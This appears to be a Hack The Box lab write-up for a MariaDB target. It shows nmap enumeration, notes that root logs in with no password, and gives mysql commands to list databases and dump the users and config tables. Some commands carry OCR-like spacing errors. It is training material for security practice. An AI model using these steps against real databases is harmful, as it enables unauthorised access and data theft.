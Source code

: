 #HTB 
# Enumeration
Target info:

	Target IP: 10.129.123.78
	Hosting: MariaDB mysql
	mysql-info:
	Protocol: 10
	Version:5.5.5-10.3.27-MariaDB-0+deb10u1


## nmap

````
//command:
nmap -A -p 010000-oN nmap. txt 10.129.123.78

//output:

- PORT STATE SERVICE VERSION
3306/tcp open mysql?

mysql-info:
Protocol: 10
Version:5.5.5-10.3.27-MariaDB-0+deb10u1
Thread ID: 67 C
Capabilities flags: 63486

````

| Open port | Service |
| --------- | ------- |
| 3306      | mysql   |

# Main Issue
root User Authentication provided without supplying a password

#SQL #DatabaseDump

	command to authenticate:
	.
	mysql -u root -h [IP ADDRESS]

# Exploit

>You'll need some knoledge of SQL queries to inject SQL commands 

1. Access : `mysql-u root-h 10.129.123.78 `

2. Show all databases: `show databases;`
	>Database:
>  htb
	information schema
	mysql
	performance_schema 

3. Select htb -> `use htb;`
>Database changed
>MariaDB [htb]>

4. Show Tables -> `show tables;`
>config
>users

5. Dump users -> `SELECT * from users;`
> admin admin@sequel.htb
	lara lara@sequel.htb
	DWN sam sam@sequel.htb
	mary mary@sequel.htb

6. Dump config -> `Select * from config;`
![[SELECT * from config.png]]